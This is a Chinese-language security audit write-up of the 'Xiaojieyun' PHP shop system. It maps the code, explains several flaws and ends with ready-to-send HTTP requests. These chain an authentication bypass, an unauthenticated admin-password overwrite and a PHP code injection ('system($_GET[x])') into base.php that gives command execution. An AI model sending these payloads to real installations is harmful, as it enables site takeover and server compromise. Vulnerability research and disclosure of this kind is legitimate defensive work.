# 小杰云商城系统
## 目录
* 前言
* 环境搭建
* 审计流程
* 漏洞验证


## 0x 01 环境搭建
环境搭建推荐使用phpstudy_pro小皮面板，该系统要求语言环境为PHP7.4版本，默认使用中间件Nignx和数据库MySQL。

成功部署后，浏览器访问 `/install`，按向导完成安装即可：


## 0x 02 审计流程
### 目录结构分析
```
xiaojieyun/                          # Web 根目录
├── admin/                           # 【管理后台】
│   ├── index.php                    #   后台首页
│   ├── login.php                    #   管理员登录
│   ├── code.php                     #   验证码生成 (不依赖 common.php)
│   ├── set.php                      #   系统设置 (含 RCE 漏洞)
│   ├── ai_api.php                   #   AI API 代理 (鉴权绕过)
│   ├── ajax_optimize.php            #   AI 优化应用 (鉴权绕过 + 配置覆写)
│   ├── ajax.php                     #   后台 AJAX 接口
│   ├── ajax_order.php               #   订单管理 AJAX
│   ├── account.php                  #   子账户管理
│   └── ...
│
├── user/                            # 【用户中心】
│   ├── ajax.php                     #   用户 AJAX (登录/注册/下单)
│   ├── reg.php                      #   用户注册页面
│   ├── login.php                    #   用户登录页面
│   ├── regsite.php                  #   分站注册
│   └── ...
│
├── includes/                        # 【核心库】审计重点
│   ├── common.php                   #   全局启动文件 (加载顺序关键)
│   ├── member.php                   #   鉴权核心 (三种角色认证)
│   ├── function.php                 #   daddslashes(), authcode(), real_ip()
│   ├── core.func.php                #   业务核心函数
│   ├── ajax.func.php                #   AJAX 辅助函数
│   ├── base.php                     #   CC 防御配置 (被无条件 include)
│   ├── auth.php                     #   授权验证
│   ├── lib/
│   │   ├── PdoHelper.php            #   数据库抽象层 (表前缀替换)
│   │   ├── Cache.php                #   配置缓存 (pre_cache / pre_config)
│   │   ├── Price.php                #   价格计算
│   │   └── Plugin.php               #   插件系统
│   ├── 360safe/
│   │   ├── 360webscan.php           #   WAF: Web 攻击检测
│   │   └── xss.php                  #   WAF: XSS/SQL 规则过滤
│   └── plugins/                     #   第三方对接插件
│
├── api.php                          # 【对外开放 API】对接/查询
├── newApi.php                       # 【新版 API】商品列表/搜索
├── newAjax.php                      # 【新版 AJAX】订单查询
├── ajax.php                         # 【前端 AJAX】无鉴权
├── cron.php                         # 【定时任务】价格同步/订单监控
│
├── other/                           # 【支付回调】支付宝/微信
├── install/                         # 【安装向导】部署后应删除
├── template/                        # 【模板文件】
├── assets/                          # 【静态资源】
└── config.php                       # 【数据库配置】
```
### 请求生命周期
该系统中几乎每个PHP文件都引用了`includes/common.php`依赖文件
```
Request
  │
  ▼
includes/common.php 加载
  │
  ├─[1]  include base.php              ← CC防御配置 (define CC_Defender)
  ├─[2]  session_start()               ← 启动 PHP Session
  ├─[3]  autoloader + register         ← 类自动加载
  ├─[4]  CC_Defender 检查              ← CC攻击防御（cookie校验）
  ├─[5]  加载 360safe WAF              ← 请求参数过滤
  ├─[6]  require config.php            ← 加载数据库配置
  ├─[7]  new PdoHelper($dbconfig)      ← 初始化 $DB
  ├─[8]  $CACHE->pre_fetch()           ← 从 pre_cache 加载系统配置
  ├─[9]  define('SYS_KEY', ...)        ← 定义系统密钥
  ├─[10] $password_hash = $conf['syskey']  ← 密码哈希=系统密钥
  ├─[11] include function.php          ← daddslashes(), authcode() 等
  ├─[12] include member.php            ← 【鉴权核心】解析 Cookie Token
  ├─[13] 分站域名匹配                   ← 多租户域名绑定
  ├─[14] cookiesid 初始化              ← 访客标识
  └─[15] 业务文件继续执行
```


### 白盒审计
**未授权使用AI服务**
在`admin/ai_api.php` 中使用变量`$islogin`进行鉴权用户是否登录，默认硬编码为1。正常 admin 页面会重定向到 `login.php`，但此端点直接被访问，若配置了 DeepSeek API Key，则可未授权调用 AI 服务。


**明文存储系统密码**
在`install/index.php`下，系统默认安装将明文密码存储到数据库当中。

在`admin/login.php`中，我们也可以看到系统直接使用数据库中明文密码与用户提交的密码进行对比判断，这为后续的攻击链埋下伏笔。


**未授权LIKE注入**
在`newApi.php`当中，使用了`if (isset($_POST['user']) && isset($_POST['pass']))`的IF语句进行判断，实际攻击者可以直接两个参数都不传递就绕过认证。

kw参数存在LIKE注入，使用`%`即可查看系统所有商品信息，使用了`daddslashes`函数转义了单引号，且系统默认连接数据库编码为`utf8mb4`，也就杜绝了宽字节注入的可能。


**任意配置覆写**
在`admin/ajax_optimize.php`中，同样存在使用`$islogin`参数认证登录，以及硬编码问题。

在设置do参数为`apply`后，可直接更新数据库中表`pre_config`中的配置项，包括key和value值。

在实际部署数据库后发现并不存在表`pre_config`


这是因为在`includes/lib/PdoHelper.php`中对代码中的表名和实际数据库名进行了前缀替换。
默认将`pre_`前缀替换为`$dbconfig['dbqz']`值，默认在config.php对应是`shua`字符串。



在`shua_config`表中存储着管理员用户名密码，这样我们就可以通过未授权方式将管理员用户名和密码进行覆盖。


**后台命令执行**
管理员后台存在配置CC防护功能，使用PHP代码拼接的方式写入到文件base.php。


base.php在`lib/common.php`中被引用，也就是说，每个PHP文件在加载都需要引用base.php，把恶意代码写入到base.php当中，就能对整个系统进行命令执行。


## 0x 03 漏洞验证
**未授权使用AI服务**
```
POST /xiaojieyun/admin/ai_api.php HTTP/1.1

Host: localhost

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

  

action=chat&model=deepscek-chat&messages=[{"role":"user","content":"你好，请介绍一下你自己"}]
```


**未授权LIKE注入**
```
POST /xiaojieyun/newApi.php?act=goodslistbycid HTTP/1.1

Host: localhost

Content-Type: application/x-www-form-urlencoded

  

kw=%25&cid=-1&limit=100&page=1&status=all&range=all
```



**任意配置覆写**
```
POST /xiaojieyun/admin/ajax_optimize.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

do=apply&type=admin_pwd&content=admin123
```



**后台命令执行**

```
POST /xiaojieyun/admin/set.php?mod=defend_n HTTP/1.1

Host: localhost

Cookie: PHPSESSID=9gl455vir88e1a9kglv6bi665g; mysid=bb7978f7e53b24f8315d781ac2e14f17

Referer: http://localhost/xiaojieyun/admin/set.php?mod=defend

Content-Type: application/x-www-form-urlencoded

  

do=submit&defendid=1);system($_GET[x]);//&cc_protect_enabled=0&cc_max_requests=100&cc_check_time=10cc_block_time=300&cc_redirect_url=https://www.baidu.com
```



